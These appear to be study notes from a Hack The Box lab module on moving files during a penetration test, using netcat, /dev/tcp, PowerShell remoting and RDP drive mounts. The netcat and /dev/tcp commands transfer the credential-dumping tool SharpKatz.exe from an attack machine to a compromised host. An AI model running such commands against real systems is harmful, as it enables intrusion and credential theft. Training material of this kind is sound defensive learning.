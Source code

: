 - Sometimes only inbounds trafic is allowed 

```shell
Sauuron@htb[/htb]$ # Example using Original Netcat
Sauuron@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe # Host on https from attack machine

# Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe # Download to comprimized machine 
```


#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
----
```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```


## <span style="color:lightgreen">PowerShell Session File Transfer</span>

- Winrm
PS: Needs Administrator privleges, part of Remote management Users group, or have explicit permissions for Powershell Remoting in session configuration .

```powershell
# Test connection
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985 # Because this session has already privlegees on DATBASE01 machine so no need to provide credentials
# Create PS-SESSION
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01 
# Copy 
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```


## <span style="color:lightgreen">Remote Desktop</span>
-----

#### Mounting a Linux Folder Using rdesktop
```shell
Sauuron@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Linux Folder Using xfreerdp

```shell
Sauuron@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

<mark style="background: #ADCCFFA6;color:#ffffff">**Note:** This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.</mark>
